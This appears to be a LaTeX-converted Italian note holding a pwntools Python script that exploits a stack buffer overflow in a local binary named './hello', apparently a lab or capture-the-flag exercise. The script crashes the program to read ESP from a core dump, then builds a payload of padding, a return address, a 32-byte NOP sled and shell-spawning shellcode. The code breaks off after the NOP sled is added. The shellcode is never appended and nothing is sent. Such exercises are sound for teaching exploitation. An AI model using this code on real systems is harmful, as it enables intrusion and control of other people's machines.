 \documentclass[11pt,a4paper]{article}
\begin{document}
Questo script fornisce una shell sulla macchina su cui stiamo eseguendo
il test.

Python

from pwn import *

import os

context.update(arch=\textquotesingle i386\textquotesingle,
os=\textquotesingle linux\textquotesingle)

context.log\_level = \textquotesingle error\textquotesingle{}

print("{[}*{]} FASE 1: Provoco un crash per trovare lo Stack Pointer
reale...")

os.system("rm -f core*")

p\_crash = process(\textquotesingle./hello\textquotesingle)

p\_crash.sendline(b"A" * 150)

p\_crash.wait()

try:

\# Leggiamo la memoria morta dal file generato dal crash

core = p\_crash.corefile

\# Estraiamo il valore di ESP al momento esatto del segfault

real\_esp = core.esp

print(f"{[}+{]} INDIRIZZO TROVATO: ESP = \{hex(real\_esp)\}")

except Exception as e:

print("{[}-{]} Impossibile leggere il core dump. Esegui
\textquotesingle ulimit -c unlimited\textquotesingle.")

exit()

print("{[}*{]} FASE 2: Lancio dell\textquotesingle exploit...")

context.log\_level = \textquotesingle info\textquotesingle{}

p = process(\textquotesingle./hello\textquotesingle)

offset = 76

ret\_address = real\_esp \# Usiamo l\textquotesingle indirizzo appena
calcolato

\# Generazione shellcode base fornito da pwntools

shellcode = asm(shellcraft.sh())

\# Costruzione del payload con un NOP Sled di 32 byte

payload = b"A" * offset

payload += p32(ret\_address)

payload += b"\textbackslash x90" * 32
\end{document}
